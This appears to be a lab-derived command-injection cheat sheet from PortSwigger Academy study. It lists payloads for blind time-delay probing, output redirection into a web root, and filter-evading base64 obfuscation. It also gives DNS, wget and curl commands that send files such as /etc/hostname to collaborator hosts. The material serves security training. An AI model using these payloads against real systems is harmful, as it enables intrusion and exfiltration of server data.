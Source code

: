 # Command Injection

## Summary

* [General Recon For Comamnd Injection Vulnerabilities](#recon)

  
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

  
   * [Obfuscation Related Payloads](#obfuscation-payloads)

<br>

## Resources

* https://portswigger.net/web-security/os-command-injection
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection

<br>

## Recon

* First step is to perform application mapping and identify any instances where the application appears to be interacting with the underlying OS by calling external processes or accessing the filesystem.  
* The application may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc.).  It’s recommended to probe all these instances for OS Command Injection.

<br>

---
---

## Cheat Sheet

### Background Knowledge

* The characters ; | & and newline(URL encoded -> %0a) can be used to batch multiple commands one after another.  Each of these characters should be used when probing for command injection vulnerabilities, as the application may reject some inputs but accept others.

* The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command.  This will cause the interpreter to execute this command first before continuing to execute the remaining command String: 

```bash
nslookup `whoami`.server-you-control.net
```

<br>

* Other useful commands to know:  https://portswigger.net/web-security/os-command-injection#useful-commands

* Ways of injecting OS commands:  https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

Note:   Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

<br>

### Example

* Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters.

  * For example, below the & and {space} characters need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload:

![Command Injection](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Command%20Injection/Images/CommandInjection-1.png)

<br>

### Simple Command Injection

```bash
& echo test123 &
```

<br>

### Blind Command Injection

* Many times, the results of the injected commands are not returned in the application responses.  If that is the case, we can use the ping command to trigger a time delay in the application’s response by causing the server to ping its loopback interface for a specific time period.

* To maximize chances of identifying OS Command Injection if the application is filtering certain command separators, submit each of the following payloads to each input fields and analyze the time taken for the application to respond:

```bash
| ping -i 30 127.0.0.1 |
```

```bash
| ping -n 30 127.0.0.1 |
```

```bash
& ping -i 30 127.0.0.1 &
```

```bash
& ping -n 30 127.0.0.1 &
```

```bash
; ping -i 30 127.0.0.1 ;
```

```bash
%0a ping -i 30 127.0.0.1 %0a
```

```bash
` ping 127.0.0.1 `
```

<br>

### Output Redirection

* We can also redirect a commands output to a file using the > character.  The below example redirects the output of the OS command to a file <u>within the web root</u>, then we can access the file to view the contents through our browser.

```bash
; whoami > /var/www/images/test;
```

<br>

### Out-of-band channel payloads

#### Network Interaction

```bash
; nslookup server-you-control ;
```

```bash
& nslookup server-you-control &
```

<br>

#### Reverse Shells
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

<br>

#### DNS Data Exfiltration
* Using backticks \`_command_\` and $(_command_)

```bash
; nslookup $(whoami).server-you-control ;
```

```bash
; nslookup `whoami`.server-you-control ;
```

<br><br><br>

### Obfuscation Payloads:

The goal here was to learn how the following payload can be obfuscated, to bypass filters for data exfiltration.

The payloads can be combined when exploiting Template Injection or other vulnerabilities that use OS Command injection.

<br>

  * Original Payload:
    
```
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

<br>

  * Obfuscation - Using the "echo" command to help obfuscate the word "hostname"

```
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

<br>

  * Obfuscation - Using base64 encoding to "hide" the file name "/etc/hostname"
    
```
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

  * Decoded payload
```
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

<br>

* Obfuscation - Using base encoding to "hide" the whole command "cat /etc/hostname"

```
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```

<br><br>

* Other methods to achieve data exfiltration:

```
nslookup -q=cname $(cat /home/test).burp.oastify.com
```

```
wget http://burp-collab.com --post-file=/home/test
```

```
curl http://wcq0jo8.oastify.com -d @/home/test
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.
